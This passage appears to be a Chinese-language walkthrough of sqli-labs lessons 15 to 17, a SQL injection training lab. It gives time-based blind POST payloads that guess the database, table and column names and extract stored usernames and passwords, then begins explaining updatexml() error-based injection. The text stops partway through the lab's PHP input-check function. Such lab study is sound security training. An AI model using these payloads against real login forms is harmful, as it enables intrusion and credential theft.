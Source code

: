 # less 15(基于bool型/时间延迟单引号POST型盲注)
***
## 原理
无论怎么输入都没有回显的布尔型，通过时间延迟判断是否执行语句，并且如果是手工注入的话所有的库名表名列名都要一个一个猜。前后顺序为:数据库名长度->数据库名猜测->按条依次猜测表名->对表名中的值进行猜测
## 步骤
1.仍旧是注入点测试
`uname=admin' and 1=1 --+ 登录成功`
`uname=admin' and 1=2 --+ 登录失败`
以此判断此处存在可以语句执行的漏洞
2.开始对各项值进行猜测
`uname=admin' and if(length(database())=8,sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if(left(database(),1)='s',sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if( left((select table_name from information_schema.tables where table_schema=database() limit 1,1),1)='r' ,sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if(left((select column_name from information_schema.columns where table_name='users' limit 4,1),8)='password' ,sleep(5),1)--+&passwd=admin&submit=Submit`
`uname=admin' and if(left((select password from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit`
 
`uname=admin' and if(left((select username from users order by id limit 0,1),4)='dumb' ,sleep(5),1)--+&passwd=admin&submit=Submit`
***

# less 16(基于bool型/时间延迟的双引号POST型盲注)
***
## 原理 
没有报错信息的盲注过程。
## 步骤
本题只是改变了闭合方式为"),其余步骤仍旧见上
***

# less 17(基于错误的更新查询POST注入)
***
## 原理
updatexml()报错注入
该函数的正确用法
UPDATEXML(XML_doccument,XPath_string,new_value)
第一个参数：XML_document是String格式，为XML文档对象的名称，文中为Doc 
第二个参数：XPath_string (Xpath格式的字符串) ，如果不了解Xpath语法，可以在网上查找教程。 
第三个参数：new_value，String格式，替换查找到的符合条件的数据 
作用：改变文档中符合条件的节点的值
仍旧是因为输入参数的格式不符合其标准格式，所以才会报错
## 步骤
1.查看源码发现对uname做了check_input 处理，该函数的操作是
function check_input($value)
	{
	if(!empty($value))
		{
		// truncation (see comments)
		$value = substr($value,0,15);
